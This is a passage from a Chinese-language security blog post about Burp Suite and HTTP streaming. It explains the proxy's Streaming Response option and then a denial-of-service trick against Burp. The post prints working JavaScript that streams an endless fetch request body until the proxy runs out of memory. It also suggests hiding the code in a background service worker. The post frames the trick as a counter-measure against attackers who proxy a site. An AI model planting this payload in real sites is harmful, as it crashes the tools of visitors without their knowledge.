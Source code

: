 如果是 HTTP/1.1, burp 中存在相关功能的选项, 在 `Project options -> HTTP -> Streaming Response` 中 add 相关目标即可, 如果想要匹配全部, 可以打开 advanced scope control 然后写上三个 .* 就行了.  

![](https://s2.loli.net/2022/08/16/4aYGEngHdfezVj3.png#center)  

打开以后是会实时更新 history 并中继给客户端, 而不是等服务器发送完毕后才一起发送. 不过这个功能默认不开启, 尝试了一下会如同其描述所说, 在 /tmp 底下写一些文件, linux 是内存盘倒还还好, 如果是 windows 的话应该就直接写到硬盘上了吧, 没有相关需求还是别开了.

然后在 HTTP/2 的情况下, 我还发现即使打开 `Streaming Response`, burp 也无法正常处理, 还是得等流全部结束后才会返回给客户端, 所以这个选项的作用还是很有限的.

## DoS

上面已经提到了 HTTP streaming, 实际上请求也是可以 streaming 的, 可以参考 [request streaming](https://developer.chrome.com/articles/fetch-streaming-requests/). 这是一个非常新的功能, 在文章写下的时间 (2022 年 8 月 14 日), 正式版 Chrome 还不支持此功能, 需要使用 Dev 版本. 需要注意请求 streaming 不支持 HTTP/1.x, 也就是说用的不是 `Transfer-encoding: chunked` 而是基于 HTTP/2 自带的流式传输.  

那么自然也是可以用来探测 burp 的, 这里不多赘述了, 有个更有意思的玩法, 那就是利用 burp 会等到请求流结束后才会将 HTTP 报文发送给服务器的特性, 不断发送垃圾数据让 burp OOM, 达到 DoS 的效果. 在以往没有流式传输的情况下, 只能在浏览器端通过死循环发送大量短字符串给 burp, 或者一次性构造超大字符串发送给 burp 的方法来进行 DoS, 但不管采取哪种方法, 首先 OOM 的只会是浏览器而不是 burp, 同时受害者也会非常快的发现浏览器运行的页面存在问题. 而在有流式传输的情况下, 以较小资源消耗为代价就可以在单次请求内打满 burp 的内存上限, 而且由于是在单次请求内, java 也是无法 gc 掉这个请求下的数据的, 只能眼睁睁的看着内存被占满. 流式传输的出现使得浏览器占用的资源远远小于 burp, 让 DoS 变的有实际意义, 只要多来几次 burp 就会直接崩掉.

比如以下代码:  
```js
let veryLoooooongString = 'abcdddddd'.repeat(6553500);
const stream = new ReadableStream({
  async start(controller) {
    while (1) {
        await wait(0);
        controller.enqueue(veryLoooooongString);
    }
  },
}).pipeThrough(new TextEncoderStream());

function wait(milliseconds) {
  return new Promise(resolve => setTimeout(resolve, milliseconds));
}

fetch('https://target.com/', {
  method: 'POST',
  headers: {'Content-Type': 'text/plain'},
  body: stream,
  duplex: 'half',
});
```

可以达到的效果如下:  
![](https://s2.loli.net/2022/08/16/JleN4U1pB9ofROK.gif#center "GIF 未经加速")

大概 20 多秒就可以直接把内存打满, burp 会直接卡的动不了. 如果把 wait 等待时间调长那么会更隐蔽, 更极限一点可以注册成 serviceWorker 放在后台偷偷恶心攻击者.
